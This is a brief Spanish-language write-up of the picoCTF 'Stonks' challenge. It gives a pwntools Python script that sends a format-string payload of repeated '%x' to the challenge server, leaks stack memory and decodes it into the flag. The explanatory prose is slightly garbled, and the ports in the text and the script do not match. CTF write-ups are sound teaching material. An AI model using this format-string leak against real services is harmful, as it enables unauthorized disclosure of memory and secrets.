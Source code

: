 ## Objetivos
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/7e71fc0d8cc3339bfad6bf408f7dc510/vuln.c) `nc mercury.picoctf.net 6989`
## Solucion
Igualmente aqui sera de prueba y error por utilizaremos un programa el cual Luego escribí el siguiente script para conectarme al servidor y enviar un montón de %x (pila de impresiones) antes de leerlo y analizarlo en ascii:
```bash
```python
# import pwntools
from pwn import *

# string to write to
s = ""

# open up remote connection
r = remote('mercury.picoctf.net', 53437)

# get to vulnerability
r.recvuntil("View my")
r.send("1\n")
r.recvuntil("What is your API token?\n")

# send string to print stack
r.send("%x" + "-%x"*40 + "\n")

# receive until the line we want
r.recvline()

# read in line
x = r.recvline()

# remove unwanted components
x = x[:-1].decode()

# parse to characters
for i in x.split('-'):
    if len(i) == 8:
        a = bytearray.fromhex(i)

        for b in reversed(a):
            if b > 32 and b < 128:
                s += chr(b)

# print string
print(s)
```
## Referencias
[ayuda](https://ctftime.org/writeup/28935)
[video ayuda](https://www.youtube.com/watch?v=ctpQdH-GGqY)


